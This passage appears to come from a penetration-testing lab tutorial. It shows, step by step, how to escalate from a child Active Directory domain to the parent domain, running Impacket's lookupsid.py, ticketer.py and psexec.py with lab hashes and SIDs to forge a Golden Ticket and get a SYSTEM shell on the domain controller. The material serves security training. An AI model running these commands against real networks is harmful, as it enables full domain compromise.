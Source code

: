 
    \\\Performing SID Brute Forcing using lookupsid.py

    We can filter out the noise by piping the command output to grep and looking for just the domain SID.


    $ lookupsid.py logistics.inlanefreight.local/htb-student_adm@172.16.5.240 | grep "Domain SID"


    Next, we can rerun the command, targeting the INLANEFREIGHT Domain Controller (DC01) at 172.16.5.5 and grab the domain SID S-1-5-21-3842939050-3880317879-2865463114 and attach the RID of the Enterprise Admins group. Here (https://adsecurity.org/?p=1001) is a handy list of well-known SIDs.

    \\\Grabbing the Domain SID & Attaching to Enterprise Admin's RID

    $ lookupsid.py logistics.inlanefreight.local/htb-student_adm@172.16.5.5 | grep -B12 "Enterprise Admins"


    We have gathered the following data points to construct the command for our attack. Once again, we will use the non-existent user hacker to forge our Golden Ticket.

        The KRBTGT hash for the child domain: 9d765b482771505cbe97411065964d5f
        The SID for the child domain: S-1-5-21-2806153819-209893948-922872689
        The name of a target user in the child domain (does not need to exist!): hacker
        The FQDN of the child domain: LOGISTICS.INLANEFREIGHT.LOCAL
        The SID of the Enterprise Admins group of the root domain: S-1-5-21-3842939050-3880317879-2865463114-519

    Next, we can use ticketer.py  from the Impacket toolkit to construct a Golden Ticket. This ticket will be valid to access resources in the child domain (specified by -domain-sid) and the parent domain (specified by -extra-sid).


    \\\Constructing a Golden Ticket using ticketer.py


    $ ticketer.py -nthash 9d765b482771505cbe97411065964d5f -domain LOGISTICS.INLANEFREIGHT.LOCAL -domain-sid S-1-5-21-2806153819-209893948-922872689 -extra-sid S-1-5-21-3842939050-3880317879-2865463114-519 hacker



    The ticket will be saved down to our system as a credential cache (ccache) file, which is a file used to hold Kerberos credentials. Setting the KRB5CCNAME environment variable tells the system to use this file for Kerberos authentication attempts.


    \\Setting the KRB5CCNAME Environment Variable

    $ export KRB5CCNAME=hacker.ccache 

    We can check if we can successfully authenticate to the parent domain's Domain Controller using Impacket's version of Psexec. If successful, we will be dropped into a SYSTEM shell on the target Domain Controller.

    \\Getting a SYSTEM shell using Impacket's psexec.py

    $ psexec.py LOGISTICS.INLANEFREIGHT.LOCAL/hacker@academy-ea-dc01.inlanefreight.local -k -no-pass -target-ip 172.16.5.5

